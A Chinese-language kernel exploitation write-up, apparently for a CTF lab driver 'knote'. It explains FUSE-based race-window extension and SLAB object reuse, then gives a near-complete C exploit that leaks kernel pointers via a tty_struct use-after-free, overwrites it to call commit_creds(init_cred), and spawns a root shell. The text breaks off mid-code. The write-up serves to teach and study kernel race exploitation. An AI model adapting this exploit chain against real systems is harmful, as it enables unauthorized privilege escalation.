1.  **请求发起与拦截**：用户程序调用`read()`系统调用，VFS根据文件系统类型将请求路由到FUSE内核模块的`fuse_file_read_iter()`函数。

2.  **请求封装与发送**：FUSE内核模块分配`fuse_req`结构体，构建包含操作码(FUSE_READ)、文件句柄、偏移量、大小的请求，通过`/dev/fuse`发送到用户空间，并将当前进程加入等待队列。

3.  **用户空间处理**：FUSE守护进程从`/dev/fuse`读取请求，解析头部，根据操作码调用用户实现的`read`回调函数。回调函数执行实际的文件读取逻辑。

4.  **响应构建与发送**：守护进程构建响应头部，添加读取的数据，通过`/dev/fuse`写回内核。

5.  **内核接收与处理**：FUSE内核模块被唤醒，解析响应，将数据复制到用户缓冲区，唤醒等待的进程。

6.  **返回结果**：控制流逐层返回，最终用户程序获得读取结果。

#### 3-3-2. 内存映射与页面异常处理流程

在技术验证中，FUSE的关键作用是通过内存映射和页面异常机制扩展竞态窗口。当内核访问FUSE映射的内存页时，会触发缺页异常，进而调用用户空间的FUSE回调函数，在此处可以主动阻塞执行流。

**内存映射工作机制**：
在FUSE文件系统中，即使不实现`mmap`回调，用户程序仍然可以通过`mmap`系统调用映射FUSE文件。当访问映射的内存区域时，会触发缺页异常，内核会自动调用`read`回调来获取数据。

```c
// 用户程序示例：映射FUSE文件并访问
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>

int main() {
    int fd;
    char *addr;
    struct stat sb;

    // 打开FUSE挂载点的文件
    fd = open("/mnt/fuse/test.txt", O_RDONLY);
    if (fd == -1) {
        perror("open");
        exit(EXIT_FAILURE);
    }

    // 获取文件大小
    if (fstat(fd, &sb) == -1) {
        perror("fstat");
        exit(EXIT_FAILURE);
    }

    // 映射文件到内存
    addr = mmap(NULL, sb.st_size, PROT_READ, MAP_PRIVATE, fd, 0);
    if (addr == MAP_FAILED) {
        perror("mmap");
        exit(EXIT_FAILURE);
    }

    printf("File mapped at address: %p\n", addr);

    // 第一次访问映射的内存 - 触发缺页异常
    printf("First byte: %c\n", addr[0]);

    // 访问更多数据
    for (int i = 0; i < 10 && i < sb.st_size; i++) {
        printf("%c", addr[i]);
    }
    printf("\n");

    // 取消映射
    if (munmap(addr, sb.st_size) == -1) {
        perror("munmap");
        exit(EXIT_FAILURE);
    }

    close(fd);
    return 0;
}
```

**内核处理流程**：
当用户程序访问映射的FUSE文件内存时，内核的处理流程如下：

1.  **触发缺页异常**：CPU访问未映射的虚拟内存地址
2.  **内核异常处理**：调用`handle_mm_fault()`处理缺页异常
3.  **FUSE特定处理**：发现是FUSE文件映射，调用`fuse_vma_fault()`
4.  **页面读取请求**：构建`FUSE_READPAGE`请求发送到用户空间
5.  **用户空间响应**：FUSE守护进程的`read`回调被调用
6.  **建立映射**：内核收到响应后建立页面映射
7.  **恢复执行**：用户程序继续执行


```mermaid
sequenceDiagram
    participant 用户程序 as 用户程序
    participant 内核 as 内核空间
    participant FUSE守护进程 as FUSE守护进程
    participant 回调函数 as read回调函数

    用户程序->>用户程序: mmap()映射FUSE文件
    用户程序->>用户程序: 访问映射的内存地址

    Note over 用户程序,内核: 触发缺页异常
    用户程序->>内核: 页面异常(#PF)

    内核->>内核: handle_mm_fault()
    内核->>内核: 发现是FUSE文件映射
    内核->>内核: 调用fuse_vma_fault()

    Note over 内核,FUSE守护进程: 发送FUSE_READPAGE请求
    内核->>FUSE守护进程: 通过/dev/fuse发送请求

    Note over FUSE守护进程,回调函数: 调用read回调
    FUSE守护进程->>回调函数: 调用fuse_ops_read()

    回调函数->>回调函数: 准备数据(可在此处阻塞)
    回调函数-->>FUSE守护进程: 返回数据

    FUSE守护进程->>内核: 发送响应

    内核->>内核: 建立页面映射
    内核->>用户程序: 恢复执行

    用户程序->>用户程序: 继续访问内存
```

**窗口扩展的数学表示**：
设正常执行时检查与使用之间的时间间隔为 $$T_{\text{native}}$$，FUSE阻塞时间为 $$T_{\text{block}}$$，则扩展后的竞态窗口为：

$$
T_{\text{extended}} = T_{\text{native}} + T_{\text{block}}
$$

通过控制 $$T_{\text{block}}$$（通常可达毫秒甚至秒级），可以将原本纳秒级的竞态窗口扩展数个数量级，使竞态条件触发从理论可能变为实际可行。

### 3-4. FUSE关键内核函数调用路径

#### 3-4-1. 内核FUSE模块架构概览

Linux内核中的FUSE实现位于`fs/fuse/`目录下，主要包括以下几个核心文件：

- `fuse_i.h` - 内部数据结构定义
- `inode.c` - inode操作实现
- `file.c` - 文件操作实现
- `dir.c` - 目录操作实现
- `dev.c` - `/dev/fuse`设备接口
- `fuse_abi.h` - FUSE协议定义

#### 3-4-2. 关键函数调用路径分析

当用户程序对FUSE挂载点发起系统调用时，内核的处理路径如下：

**1. 虚拟文件系统(VFS)层路由**

```c
// 当用户调用read()时
SYSCALL_DEFINE3(read, unsigned int, fd, char __user *, buf, size_t, count)
    → ksys_read()
        → vfs_read()
            → file->f_op->read_iter()  // 调用文件操作表
```

**2. FUSE文件操作表注册**
FUSE在内核中注册的文件操作表将VFS调用路由到FUSE处理函数：

```c
// fs/fuse/file.c
const struct file_operations fuse_file_operations = {
    .llseek         = fuse_file_llseek,
    .read_iter      = fuse_file_read_iter,      // 读操作
    .write_iter     = fuse_file_write_iter,     // 写操作
    .mmap           = fuse_file_mmap,           // 内存映射
    .open           = fuse_open,                // 打开文件
    .flush          = fuse_flush,               // 刷新文件
    .release        = fuse_release,             // 关闭文件
    .fsync          = fuse_fsync,               // 同步文件
    .lock           = fuse_file_lock,           // 文件锁
    .get_unmapped_area = thp_get_unmapped_area, // 获取未映射区域
    .splice_read    = generic_file_splice_read, // splice读取
};
```

**3. 读操作调用路径（以fuse_file_read_iter为例）**

```c
// fs/fuse/file.c
static ssize_t fuse_file_read_iter(struct kiocb *iocb, struct iov_iter *to)
    → fuse_do_readpage()                     // 直接读取页面
        → fuse_send_read()                   // 发送读请求到用户空间
            → fuse_simple_request()          // 发送简单请求
                → fuse_request_send()        // 发送请求
                    → queue_request()        // 将请求加入队列
                    → request_wait_answer()  // 等待响应
```

**4. 内存映射操作调用路径**
内存映射是竞态窗口扩展的关键，其调用路径如下：

```c
// fs/fuse/file.c
static int fuse_file_mmap(struct file *file, struct vm_area_struct *vma)
    → fuse_link_write_file()                 // 链接写文件
    → vma->vm_ops = &fuse_file_vm_ops;       // 设置虚拟内存操作

// 虚拟内存操作表
static const struct vm_operations_struct fuse_file_vm_ops = {
    .close        = fuse_vma_close,          // 关闭VMA
    .fault        = fuse_vma_fault,          // 缺页处理
    .page_mkwrite = fuse_vma_page_mkwrite,   // 页面写时复制
    .map_pages    = filemap_map_pages,       // 映射页面
};
```

**5. 缺页异常处理路径**
当访问FUSE映射的内存时，触发缺页异常：

```c
// fs/fuse/file.c
static vm_fault_t fuse_vma_fault(struct vm_fault *vmf)
    → filemap_fault()                        // 文件映射缺页处理
        → do_sync_mmap_readpage()           // 同步映射读取页面
            → fuse_readpage()               // FUSE页面读取
                → fuse_send_readpage()      // 发送页面读取请求
```

**6. 请求发送与接收机制**
FUSE内核模块与用户空间守护进程通过`/dev/fuse`进行通信：

```c
// fs/fuse/dev.c
// 请求发送
static void queue_request(struct fuse_conn *fc, struct fuse_req *req)
    → list_add_tail(&req->list, &fc->pending);  // 加入待处理队列
    → request_send_notify(fc, req);             // 通知用户空间

// 请求接收
static ssize_t fuse_dev_read(struct kiocb *iocb, struct iov_iter *to)
    → copy_request_to_user(fc, req, to);        // 复制请求到用户空间

// 响应接收
static ssize_t fuse_dev_write(struct kiocb *iocb, struct iov_iter *from)
    → copy_request_from_user(fc, req, from);    // 从用户空间复制响应
    → request_end(fc, req);                     // 结束请求
```

#### 3-4-3. 关键内核逻辑代码剖析

**1. 请求数据结构定义**

```c
// fs/fuse/fuse_i.h
struct fuse_req {
    struct list_head list;           // 链表节点
    struct fuse_conn *fc;            // FUSE连接
    atomic_t count;                  // 引用计数
    unsigned int flags;              // 标志位
    unsigned int state;              // 状态
    struct fuse_args args;           // 请求参数
    struct fuse_in_header in;        // 输入头部
    struct fuse_out_header out;      // 输出头部
    wait_queue_head_t waitq;         // 等待队列
    // ... 其他字段
};
```

**2. 请求发送核心逻辑**

```c
// fs/fuse/dev.c
static void request_send(struct fuse_conn *fc, struct fuse_req *req)
{
    // 设置请求状态
    req->state = FUSE_REQ_PENDING;
    req->intr = 1;

    // 将请求加入待处理队列
    list_add_tail(&req->list, &fc->pending);

    // 如果连接被中断，设置错误
    if (fc->connected) {
        fc->num_background++;
        if (fc->num_background == fc->max_background)
            fc->blocked = 1;

        // 唤醒读取进程
        wake_up(&fc->waitq);
    } else {
        req->out.h.error = -ENOTCONN;
        request_end(fc, req);
    }
}
```

**3. 内存映射缺页处理核心逻辑**

```c
// fs/fuse/file.c
static vm_fault_t fuse_vma_fault(struct vm_fault *vmf)
{
    vm_fault_t ret;
    struct file *file = vmf->vma->vm_file;
    struct fuse_file *ff = file->private_data;

    // 获取inode
    struct inode *inode = file_inode(file);

    // 调用通用文件映射缺页处理
    ret = filemap_fault(vmf);

    // 如果是写时复制缺页，需要特殊处理
    if (vmf->flags & FAULT_FLAG_WRITE) {
        mutex_lock(&inode->i_mutex);
        fuse_write_update_size(inode, vmf->pgoff << PAGE_SHIFT);
        mutex_unlock(&inode->i_mutex);
    }

    return ret;
}
```

**4. 页面读取请求发送**

```c
// fs/fuse/file.c
static int fuse_readpage(struct file *file, struct page *page)
{
    struct inode *inode = page->mapping->host;
    struct fuse_conn *fc = get_fuse_conn(inode);
    struct fuse_req *req;
    int err;

    // 分配请求
    req = fuse_get_req(fc, 1);
    if (IS_ERR(req))
        return PTR_ERR(req);

    // 设置请求参数
    req->out.page_zeroing = 1;
    req->out.argpages = 1;
    req->num_pages = 1;
    req->pages[0] = page;
    req->page_descs[0].length = PAGE_SIZE;

    // 构建读取请求
    fuse_read_fill(req, file, page->index << PAGE_SHIFT, PAGE_SIZE, 0);

    // 发送请求
    fuse_request_send(fc, req);

    // 等待响应
    err = req->out.h.error;
    fuse_put_request(fc, req);

    return err;
}
```

**5. 请求等待机制**

```c
// fs/fuse/dev.c
static void request_wait_answer(struct fuse_conn *fc, struct fuse_req *req)
{
    // 设置请求状态
    req->state = FUSE_REQ_SENT;

    // 如果请求不可中断，使用不可中断等待
    if (!req->intr) {
        wait_event(req->waitq, req->state == FUSE_REQ_FINISHED);
    } else {
        // 可中断等待
        int err = wait_event_interruptible(req->waitq,
                    req->state == FUSE_REQ_FINISHED);
        if (err) {
            // 请求被中断
            spin_lock(&fc->lock);
            if (req->state == FUSE_REQ_SENT) {
                list_del(&req->list);
                req->out.h.error = -EINTR;
                req->state = FUSE_REQ_FINISHED;
            }
            spin_unlock(&fc->lock);
        }
    }
}
```

**6. 竞态窗口扩展的关键时机**
在漏洞验证中，关键的时间窗口出现在请求发送后、响应接收前。此时内核线程在`request_wait_answer()`中等待，而用户空间的FUSE回调函数可以主动阻塞：

```c
// 简化的等待机制示意
static void request_wait_answer(struct fuse_conn *fc, struct fuse_req *req)
{
    // ... 发送请求到用户空间 ...

    // 💥 竞态窗口开始：内核线程在此处等待
    wait_event(req->waitq, req->state == FUSE_REQ_FINISHED);

    // 💥 竞态窗口结束：用户空间返回响应
    // ... 处理响应 ...
}
```

**7. 内核与用户空间通信协议**
FUSE使用固定的协议格式进行通信。请求和响应都包含一个固定大小的头部：

```c
// fs/fuse/fuse_abi.h
struct fuse_in_header {
    uint32_t len;       // 请求总长度
    uint32_t opcode;    // 操作码
    uint64_t unique;    // 请求唯一ID
    uint64_t nodeid;    // 文件节点ID
    uint32_t uid;       // 用户ID
    uint32_t gid;       // 组ID
    uint32_t pid;       // 进程ID
    uint32_t padding;
};

struct fuse_out_header {
    uint32_t len;       // 响应总长度
    int32_t error;      // 错误码（0表示成功）
    uint64_t unique;    // 对应的请求ID
};
```

### 3-5. FUSE竞态漏洞利用原理

#### 3-5-1. 竞态窗口扩展机制

在knote驱动漏洞验证中，FUSE技术的核心价值在于其能够**将不可控的、极短的竞态窗口扩展为完全可控的、足够长的窗口**。这一能力基于FUSE的内存映射和页面异常处理机制。

**传统竞态条件的局限性**：
在未使用FUSE的情况下，`GET_CHUNK`/`EDIT_CHUNK`的检查与使用之间的时间窗口 $$T_{\text{gap}}$$ 极短，通常只有几条指令的时间（纳秒级）。要在这个窗口内精确插入`DELETE_CHUNK`操作，需要极高的时序精度和运气成分。

**FUSE扩展机制**：
通过将用户空间缓冲区映射到FUSE文件，当内核执行`copy_to_user`或`copy_from_user`访问该缓冲区时，会触发缺页异常，进而陷入用户空间的FUSE回调函数。在这个回调函数中，可以主动阻塞任意时长，从而扩展竞态窗口。

**竞态窗口扩展的关键代码示例**：
在用户空间的FUSE回调函数中，可以实现主动阻塞机制来控制竞态窗口的持续时间：

```c
#include <signal.h>
#include <pthread.h>
#include <semaphore.h>

static sem_t fuse_block_sem;
static volatile int fuse_blocked = 0;

/* 信号处理器 */
static void signal_handler(int sig) {
    if (sig == SIGUSR1) {
        printf("FUSE: Received resume signal\n");
        sem_post(&fuse_block_sem);
    }
}

/* 带阻塞控制的read回调 */
static int fuse_ops_read_with_block(const char *path, char *buf,
                                   size_t size, off_t offset,
                                   struct fuse_file_info *fi) {
    printf("FUSE read with block control: %s\n", path);

    // 检查是否需要阻塞
    if (fuse_blocked) {
        printf("FUSE: Entering blocking state\n");

        // 设置信号处理器
        signal(SIGUSR1, signal_handler);

        // 初始化信号量
        sem_init(&fuse_block_sem, 0, 0);

        // 阻塞等待信号
        sem_wait(&fuse_block_sem);

        printf("FUSE: Resuming execution\n");

        // 清理
        sem_destroy(&fuse_block_sem);
        signal(SIGUSR1, SIG_DFL);
    }

    // 正常的数据读取逻辑
    for (int i = 0; files[i].path != NULL; i++) {
        if (strcmp(path, files[i].path) == 0) {
            if (offset >= files[i].size)
                return 0;

            if (offset + size > files[i].size)
                size = files[i].size - offset;

            if (files[i].data) {
                memcpy(buf, files[i].data + offset, size);
            } else {
                memset(buf, 0, size);
            }

            return size;
        }
    }

    return -ENOENT;
}
```

**控制程序示例**：
以下是一个完整的控制程序，演示如何通过信号控制FUSE的阻塞：

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <signal.h>
#include <sys/mman.h>
#include <fcntl.h>

/* 控制FUSE阻塞的标志 */
void set_fuse_block(int enable) {
    // 在实际实现中，这里需要通过进程间通信
    // 通知FUSE守护进程是否启用阻塞
    printf("Setting FUSE block: %s\n", enable ? "ON" : "OFF");
}

/* 恢复FUSE执行 */
void resume_fuse() {
    // 发送信号恢复FUSE执行
    printf("Sending resume signal to FUSE\n");

    // 在实际实现中，需要知道FUSE守护进程的PID
    // kill(fuse_pid, SIGUSR1);
}

int main() {
    int fd;
    char *addr;

    // 设置FUSE阻塞
    set_fuse_block(1);

    // 打开FUSE文件
    fd = open("/mnt/fuse/test.txt", O_RDONLY);
    if (fd < 0) {
        perror("open");
        return 1;
    }

    // 映射文件
    addr = mmap(NULL, 4096, PROT_READ, MAP_PRIVATE, fd, 0);
    if (addr == MAP_FAILED) {
        perror("mmap");
        close(fd);
        return 1;
    }

    printf("File mapped at %p\n", addr);

    // 启动另一个线程执行竞态操作
    pthread_t thread;
    // pthread_create(&thread, NULL, race_operation, NULL);

    // 触发FUSE读取（这会阻塞）
    printf("Accessing mapped memory (will trigger FUSE read)\n");
    char first_byte = addr[0];
    printf("First byte: %c\n", first_byte);

    // 此时FUSE守护进程在read回调中阻塞
    // 可以在这里执行竞态操作

    // 恢复FUSE执行
    sleep(1);  // 给竞态操作一些时间
    resume_fuse();

    // 继续访问文件
    printf("Continuing to access file...\n");
    for (int i = 0; i < 10; i++) {
        printf("%c", addr[i]);
    }
    printf("\n");

    // 清理
    munmap(addr, 4096);
    close(fd);

    return 0;
}
```

#### 3-5-2. 精确时序控制技术

成功触发竞态条件不仅需要扩展窗口，还需要精确控制多个线程的执行时序。FUSE与信号机制的结合提供了这种精确控制能力。

**线程同步与信号控制**：
验证程序通常包含多个线程：主控制线程、FUSE守护进程线程、触发漏洞的线程等。通过信号（如`SIGUSR1`、`SIGUSR2`）和同步原语（如信号量、条件变量），可以实现线程间的精确协调。


```mermaid
sequenceDiagram
    participant 主线程 as 主控制线程
    participant 漏洞线程 as 漏洞触发线程
    participant FUSE线程 as FUSE守护线程
    participant 内核 as 内核空间

    Note over 主线程,漏洞线程: 阶段1: 初始化与准备
    主线程->>漏洞线程: 创建并启动线程
    主线程->>FUSE线程: 启动FUSE守护进程
    主线程->>主线程: 设置信号处理器

    Note over 漏洞线程,内核: 阶段2: 触发竞态检查
    漏洞线程->>内核: ioctl(GET_CHUNK/EDIT_CHUNK)
    内核->>内核: 检查chunks[idx].buf != NULL
    内核->>内核: 开始copy_to/from_user

    Note over 内核,FUSE线程: 阶段3: FUSE阻塞与通知
    内核->>FUSE线程: 访问FUSE映射，触发缺页
    FUSE线程->>FUSE线程: 进入read回调函数
    FUSE线程->>主线程: 发送SIGUSR1(进入阻塞)
    FUSE线程->>FUSE线程: wait_for_signal()阻塞

    Note over 主线程,漏洞线程: 阶段4: 并发操作执行
    主线程->>主线程: 收到SIGUSR1，知道内核已阻塞
    主线程->>漏洞线程: 发送SIGUSR2(执行DELETE)
    漏洞线程->>内核: ioctl(DELETE_CHUNK)
    内核->>内核: 获取写锁，释放内存
    内核-->>漏洞线程: 返回成功
    漏洞线程->>主线程: 发送SIGUSR3(DELETE完成)

    Note over 主线程,FUSE线程: 阶段5: 恢复FUSE执行
    主线程->>主线程: 收到SIGUSR3，知道DELETE完成
    主线程->>FUSE线程: 发送SIGUSR4(恢复执行)
    FUSE线程->>FUSE线程: 收到信号，解除阻塞
    FUSE线程->>内核: 返回页面数据

    Note over 内核,漏洞线程: 阶段6: 完成原始操作
    内核->>内核: 完成copy_to/from_user
    内核-->>漏洞线程: 返回操作结果

    Note right of 主线程: ✅ 竞态条件精确触发
    Note right of 主线程: DELETE在检查后、使用前执行
```

**关键时序控制点**：

1.  **FUSE进入点检测**：通过FUSE回调函数发送信号，主线程可以精确知道内核何时进入阻塞状态。
2.  **并发操作触发**：主线程收到FUSE进入信号后，立即通知另一个线程执行`DELETE_CHUNK`。
3.  **操作完成确认**：`DELETE_CHUNK`线程完成操作后发送信号，主线程确认内存已释放。
4.  **FUSE恢复控制**：主线程确认`DELETE_CHUNK`完成后，发送信号恢复FUSE执行。

这种基于信号的精确控制机制，使得原本难以触发的竞态条件变得可靠和可重复。

#### 3-5-3. 内存状态控制与SLAB利用

FUSE不仅扩展了时间窗口，还通过与SLAB分配器的交互，实现了对内存状态的控制。这是实现类型混淆和对象重用的关键。

**SLAB分配器的LIFO特性**：
Linux内核的SLAB分配器为每种对象类型维护一个缓存。当对象被释放时，通常被插入对应CPU本地freelist的头部；分配时也从头部取出。这种后进先出（LIFO）行为使得**最近释放的对象最可能被立即重用**。

**FUSE与SLAB的协同**：
在漏洞验证中，FUSE阻塞提供了时间窗口，而SLAB的LIFO特性提供了空间确定性。两者的结合使得内存重用变得高度可靠：

1.  **内存释放时机控制**：在FUSE阻塞期间执行`DELETE_CHUNK`，精确控制内存释放的时间点。
2.  **立即分配触发**：FUSE恢复前或恢复后立即分配目标对象（如`tty_struct`），利用SLAB的LIFO特性使其重用刚释放的内存。
3.  **类型混淆实现**：如果分配的对象类型与原始类型不同，但大小相近，则形成类型混淆漏洞。

**CONFIG_INIT_ON_FREE的绕过**：
该配置在释放内存时自动清零，旨在防止信息泄露。FUSE技术通过以下方式应对：

1.  **信息泄露阶段**：`GET_CHUNK`读取的不是释放内存的残留数据（已被清零），而是**新分配的、已初始化的`tty_struct`对象**中的合法内核指针。
2.  **内存篡改阶段**：`EDIT_CHUNK`在`tty_struct`分配后、完全初始化前写入数据，部分字段的初始化可能尚未完成，允许用伪造数据覆盖。

#### 3-5-4. FUSE2与FUSE3在验证中的差异

虽然FUSE2和FUSE3在验证中都能实现竞态窗口扩展，但在具体实现和特性上存在差异：

| 特性维度      | FUSE2 (libfuse 2.x)    | FUSE3 (libfuse 3.x)          | 对验证的影响         |
| ------------- | ---------------------- | ---------------------------- | -------------------- |
| **API兼容性** | 较旧，部分系统默认安装 | 较新，可能需要手动安装       | FUSE2更广泛可用      |
| **线程模型**  | 多线程支持有限         | 改进的多线程，`clone_fd`选项 | FUSE3并发性能更好    |
| **内存映射**  | 支持`mmap`操作         | 完全兼容并增强`mmap`支持     | 两者均适用           |
| **错误处理**  | 相对简单               | 更完善的错误传播机制         | FUSE3调试更方便      |
| **性能特性**  | 基础缓存               | writeback缓存，readdirplus   | 对验证核心机制无影响 |
| **挂载API**   | `fuse_mount()`         | `fuse_session_mount()`       | API不同但功能等价    |

**验证中的选择考量**：

1.  **系统兼容性**：如果目标系统只提供FUSE2，则必须使用FUSE2 API。
2.  **开发便利性**：FUSE3的API更一致，错误信息更详细，便于调试。
3.  **功能需求**：对于基本的竞态窗口扩展，两者功能完全等价。
4.  **性能考虑**：验证程序通常不关心性能，更关注可靠性和可控性。

在实际验证中，通常根据目标环境选择FUSE版本。验证代码可以通过条件编译同时支持两者，或根据系统检测自动选择。

### 3-6. 技术总结

FUSE技术在内核漏洞验证中扮演了**时间放大器**和**控制平面**的双重核心角色。其技术价值主要体现在四个层面：首先，通过内存映射与页面异常处理机制，将内核中难以利用的纳秒级竞态窗口扩展为用户空间完全可控的毫秒/秒级窗口，实现了从“概率性触发”到“确定性验证”的质变；其次，结合信号机制实现多线程间的精确时序协调，为复杂的并发竞态序列提供了可靠的同步控制；第三，作为内核执行流的观测点，使验证者能够精确感知竞态触发的关键时机；最后，其不依赖特定内核版本或硬件特性的设计，保证了验证方法的通用性与可移植性。FUSE2与FUSE3在实现上存在差异，例如头文件、版本定义、API参数（如`getattr`、`readdir`）及主程序架构（`fuse_main` 与 `fuse_session_new/mount/loop`）等方面，但两者在实现竞态窗口扩展这一核心机制上功能等价。这一技术的应用也带来了深刻的安全启示：它直观地证明了看似微小的TOCTOU竞态窗口可以被可靠地捕捉和利用，凸显了内核并发安全设计的极端重要性；同时，即便在`CONFIG_INIT_ON_FREE`等现代安全机制启用的情况下，通过精巧的时序与状态控制仍可能实现绕过，这揭示了防御机制的局限性。因此，FUSE不仅是一个强大的漏洞验证工具，其工作原理也反向为内核开发提供了防御思路，即必须始终坚持最小化临界区、使用正确的同步原语并进行彻底的并发压力测试，从而构建更健壮的系统。

## 4. 实战演练

exploit核心代码如下：

```c
/*
 * Kernel addresses
 */
#define DO_SAK_WORK        0xffffffff814e9e60
#define INIT_CRED          0xffffffff824441e0
#define COMMIT_CREDS       0xffffffff81090f60
#define WORK_FOR_CPU_FN    0xffffffff81085e50
#define TTY_STRUCT_SIZE    0x2c0

/*
 * Driver IOCTL commands
 */
#define ADD_CHUNK          0x1337
#define GET_CHUNK          0x2333
#define DELETE_CHUNK       0x6666
#define EDIT_CHUNK         0x8888

/*
 * Global state
 */
static int dev_fd = -1;
static int tty_fd = -1;
static size_t tty_struct_addr = 0;
static size_t fake_tty_data[TTY_STRUCT_SIZE / 8] = {0};
static size_t orig_tty_data[TTY_STRUCT_SIZE / 8] = {0};
static char *evil_fuse_mmap = NULL;

/*
 * Driver interaction structures
 */
struct chunk_t {
    union {
        size_t size;
        size_t idx;
    };
    void *buf;
};

/*
 * Driver interaction wrappers
 */
static void add_chunk(size_t size)
{
    struct chunk_t chunk = {
        .size = size,
    };
    ioctl(dev_fd, ADD_CHUNK, &chunk);
}

static void get_chunk(size_t index, void *buf)
{
    struct chunk_t chunk = {
        .idx = index,
        .buf = buf,
    };
    ioctl(dev_fd, GET_CHUNK, &chunk);
}

static void delete_chunk(size_t index)
{
    struct chunk_t chunk = {
        .idx = index,
    };
    ioctl(dev_fd, DELETE_CHUNK, &chunk);
}

static void edit_chunk(size_t index, void *buf)
{
    struct chunk_t chunk = {
        .idx = index,
        .buf = buf,
    };
    ioctl(dev_fd, EDIT_CHUNK, &chunk);
}

/*
 * FUSE subsystem initialization
 */
static int init_fuse_subsystem(void)
{
    if (fuse_init(2) < 0) {
        log.error("Failed to initialize FUSE subsystem");
        return -1;
    }

    if (fuse_start() < 0) {
        log.error("Failed to start FUSE daemon");
        return -1;
    }

    if (fuse_create_mapping(0, 2, 1, 1) < 0) {
        log.error("Failed to create FUSE mapping 0");
        return -1;
    }

    if (fuse_create_mapping(1, 2, 1, 1) < 0) {
        log.error("Failed to create FUSE mapping 1");
        return -1;
    }

    return 0;
}

/*
 * Phase 0: Initial setup
 */
static int phase0_setup(void)
{
    log.info("========================================================");
    log.info("Phase 0: Initializing Exploit Environment");
    log.info("========================================================");

    bind_core(0);
    save_status();

    log.info("Initializing FUSE subsystem");
    if (init_fuse_subsystem() < 0) {
        return -1;
    }

    dev_fd = open("/dev/knote", O_RDONLY);
    if (dev_fd < 0) {
        log.error("Failed to open /dev/knote");
        return -1;
    }
    log.success("Vulnerable device opened: fd=%d", dev_fd);

    return 0;
}

/*
 * Phase 1: Kernel pointer leakage
 */
static int phase1_leak_pointers(void)
{
    log.info("========================================================");
    log.info("Phase 1: Kernel Address Leak via Use-After-Read");
    log.info("========================================================");

    /* Allocate vulnerable object */
    add_chunk(TTY_STRUCT_SIZE);

    /* Setup FUSE for race condition read */
    evil_fuse_mmap = (char *)fuse_get_fuse_memory_addr(0);
    RUN_JOB(get_chunk, 0, evil_fuse_mmap);

    /* Trigger race condition */
    fuse_wait_read_hit(0);
    delete_chunk(0);

    /* Allocate tty object in freed memory */
    tty_fd = open("/dev/ptmx", O_RDWR);
    if (tty_fd < 0) {
        log.error("Failed to open /dev/ptmx");
        return -1;
    }

    /* Complete FUSE read to capture kernel data */
    fuse_signal_read_ready(0);
    fuse_wait_read_done(0);
    sleep(1);

    /* Extract leaked kernel pointers */
    memcpy(orig_tty_data, evil_fuse_mmap, TTY_STRUCT_SIZE);
    memcpy(fake_tty_data, orig_tty_data, TTY_STRUCT_SIZE);

    /* Verify leaked pointers */
    if (orig_tty_data[0x56] > kernel_base &&
        (orig_tty_data[0x56] & 0xfff) == (DO_SAK_WORK & 0xfff)) {
        /* Calculate kernel addresses */
        tty_struct_addr = orig_tty_data[7] - 0x38;
        kernel_offset = orig_tty_data[0x56] - DO_SAK_WORK;
        kernel_base += kernel_offset;
        hex_dump2("Original tty_struct data:", orig_tty_data, 0x50);
        log.success("Leaked tty_struct address: 0x%lx", tty_struct_addr);
        log.success("Leaked do_sak_work address: 0x%lx", orig_tty_data[0x56]);
        log.success("Kernel offset: 0x%lx", kernel_offset);
        log.success("Kernel base: 0x%lx", kernel_base);
        return 0;
    }

    log.error("Failed to leak valid kernel pointers");
    return -1;
}

/*
 * Phase 2: Construct malicious tty structure
 */
static int phase2_build_fake_struct(void)
{
    log.info("========================================================");
    log.info("Phase 2: Constructing Malicious tty Structure");
    log.info("========================================================");

    /* Calculate runtime kernel addresses */
    size_t work_for_cpu_fn = kernel_offset + WORK_FOR_CPU_FN;
    size_t commit_creds_addr = kernel_offset + COMMIT_CREDS;
    size_t init_cred_addr = kernel_offset + INIT_CRED;

    /* Build malicious tty structure with controlled function pointers */
    fake_tty_data[12] = work_for_cpu_fn;
    fake_tty_data[3] = tty_struct_addr;
    fake_tty_data[4] = commit_creds_addr;
    fake_tty_data[5] = init_cred_addr;

    /* Prepare FUSE buffer for overwrite */
    fuse_write_data(0, (char *)fake_tty_data, TTY_STRUCT_SIZE);

    log.success("Malicious tty structure constructed successfully");

    return 0;
}

/*
 * Phase 3: Trigger exploitation
 */
static int phase3_execute_exploit(void)
{
    log.info("========================================================");
    log.info("Phase 3: Executing Privilege Escalation");
    log.info("========================================================");

    /* Clean up previous tty object */
    close(tty_fd);

    /* Re-allocate vulnerable object */
    add_chunk(TTY_STRUCT_SIZE);

    /* Setup FUSE for race condition write */
    evil_fuse_mmap = (char *)fuse_get_fuse_memory_addr(1);
    RUN_JOB(edit_chunk, 0, evil_fuse_mmap);

    /* Trigger race condition */
    fuse_wait_read_hit(1);
    delete_chunk(0);

    /* Allocate tty with malicious structure */
    tty_fd = open("/dev/ptmx", O_RDWR);
    if (tty_fd < 0) {
        log.error("Failed to open /dev/ptmx for exploitation");
        return -1;
    }

    /* Complete FUSE write to overwrite tty structure */
    fuse_signal_read_ready(1);
    fuse_wait_read_done(1);
    sleep(1);

    /* Trigger controlled ioctl to execute ROP chain */
    log.info("Triggering controlled ioctl operation");
    ioctl(tty_fd, 0xdeadbeaf, 0xdeadbeaf);

    return 0;
}

/*
 * Phase 4: Post-exploitation verification
 */
static int phase4_verify_privileges(void)
{
    log.info("========================================================");
    log.info("Phase 4: Verifying Privilege Escalation");
    log.info("========================================================");

    /* Verify root privileges */
    if (getuid() != 0) {
        log.error("Privilege escalation failed - not root!");
        return -1;
    }
    system("umount -f /tmp/fuse 2>/dev/null");
    log.success("Successfully obtained root privileges (uid=0)!");
    /* Launch root shell */
    get_root_shell();

    return 0;
}

/*
 * Main exploit routine
 */
int main()
{
    int ret = 0;

    /* Phase 0: Setup */
    if (phase0_setup() < 0) {
        ret = -1;
        goto cleanup;
    }

    /* Phase 1: Leak kernel addresses */
    if (phase1_leak_pointers() < 0) {
        ret = -1;
        goto cleanup;
    }

    /* Phase 2: Prepare exploit payload */
    if (phase2_build_fake_struct() < 0) {
        ret = -1;
        goto cleanup;
    }

    /* Phase 3: Execute exploit */
    if (phase3_execute_exploit() < 0) {
        ret = -1;
        goto cleanup;
    }

    /* Phase 4: Verify and enjoy */
    if (phase4_verify_privileges() < 0) {
        ret = -1;
        goto cleanup;
    }

cleanup:
    /* Cleanup resources */
    if (tty_fd >= 0) close(tty_fd);
    if (dev_fd >= 0) close(dev_fd);

    fuse_stop_system();
    if (ret == 0) {
        log.success("Exploit completed successfully!");
